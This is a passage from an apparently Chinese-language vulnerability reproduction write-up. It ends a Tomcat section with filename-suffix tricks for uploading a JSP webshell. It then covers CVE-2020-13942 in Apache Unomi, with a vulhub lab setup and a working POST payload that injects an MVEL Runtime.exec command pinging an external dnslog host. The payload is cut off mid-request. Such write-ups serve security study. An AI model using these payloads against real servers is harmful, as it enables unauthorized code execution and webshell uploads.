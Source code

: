 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicW4sTuCGNtbsPeMjoREcica0nrnUOKm7dxxNqxS4htYqCRRvEOydvmS6A/640?wx_fmt=png)

5. **该漏洞实际上是利用了 window 下文件名解析的漏洞来触发的**。通过构造特殊后缀名，绕过 Tomcat 检测，让 Tomcat 用 DefaultServlet 的逻辑处理请求，从而上传 jsp webshell 文件  
有三种方法可以进行绕过

1 shell.jsp%20  
2 shell.jsp::$DATA  
3 shell.jsp/

**CVE-2020-13942 Apache Unomi 远程代码执行漏洞**

**Apache Unomi 简介**

    Apache Unomi 是一个基于标准的客户 / 数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验，比如 GDPR 和 “不跟踪” 偏好设置。其最初于 Jahia 开发，2015 年 10 月提交给了 Apache 孵化器。

    Apache Unomi 具有隐私管理、用户 / 事件 / 目标跟踪、报告、访客资料管理、细分、角色、A/B 测试等功能，它可以作为：  
Ø Web CMS 个性化服务  
Ø 原生移动应用的分析服务  
Ø 具有分段功能的集中配置文件管理系统  
Ø 授权管理中心

**漏洞描述**

    Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验，比如 GDPR 和 “不跟踪” 偏好设置。其最初于 Jahia 开发，2015 年 10 月 Unomi 成为 Apache 软件基金会项目。在 Apache Unomi 1.5.1 版本之前，攻击者可以通过精心构造的 MVEL 或 ONGl 表达式来发送恶意请求，使得 Unomi 服务器执行任意代码，漏洞对应编号为 CVE-2020-11975，而 CVE-2020-13942 漏洞是对 CVE-2020-11975 漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码

**漏洞影响版本**

    Apache Unomi < 1.5.2

**环境搭建**

    使用 docker 一键搭建的 vulhub 靶场，访问页面 ip:8181  
    通过 8181 和 9443 两个端口都可以触发漏洞，本次使用 8181 端口进行漏洞复现

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicW74bkIuiaARtPicmjdfOm8iaIrLEf1MdLwJ8nMYvcdDJFh4JxsUHLtwbVg/640?wx_fmt=png)

**漏洞复现**

1. 打开靶场首页，使用 bp 进行抓包，发送到 Repeater 模块构造数据包

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicW0Q6Yb7ZyduMfPWr0VRdzXOFYTxzNlzFMGv8jLderdUxNfL6w6GLgrA/640?wx_fmt=png)

2. 将 GET 请求改为 POST 请求，删除多余的字段，保留 HOST，User-Agent 和 Content-Length 字段，然后添加以下数据，将 dnslog 换为自己的地址，然后发送数据包

```
POST /context.json HTTP/1.1
Host: 目标地址:8181
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) 
Chrome/86.0.4240.198 Safari/537.36
Content-Length: 495

{
    "filters": [
        {
            "id": "boom",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 
br9yb9.dnslog.cn\");"
                        },
                        "type": "profilePropertyCondition"
                    }
```